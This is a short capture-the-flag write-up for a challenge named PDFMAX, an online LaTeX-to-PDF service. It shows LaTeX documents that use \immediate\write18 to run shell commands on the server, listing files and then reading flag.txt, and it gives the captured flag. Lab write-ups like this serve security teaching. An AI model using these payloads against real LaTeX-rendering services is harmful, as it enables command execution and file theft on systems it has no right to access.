



# PDFMAX

* This is what happend! I typed this command to connect `nc jh2i.com 50029`, and read this line 
    > pdfmax is an online cloud LaTeX interpreter.  

    I have developed one website for my university, in which users can add multiple textbox, images and it will create PDF from LaTeX. I wanted to make it secure so I did some research. And found that by using LaTeX tags, we can read internal files, execute commands!

    

* We can use `immediate\write18{ COMMAND_HERE }`, and compile the LaTeX, we can see the command output in the logs.
    
* Test for command execution
    * Select 2nd option to create latex file.
        ```latex
        \documentclass{article}
        \begin{document}
            immediate\write18{ls}
        \end{document}
        |0|
        ```
    * Now choose 3rd option to compile it, and you can see the output in the logs.
    

* Then we just need to run `cat flag.txt` to get the flag.
    ```latex
    \documentclass{article}
    \begin{document}
        \immediate\write18{cat flag.txt}
    \end{document}
    |0|
    ```
    

    > ### LLS{write18_my_flag_down_immmediately}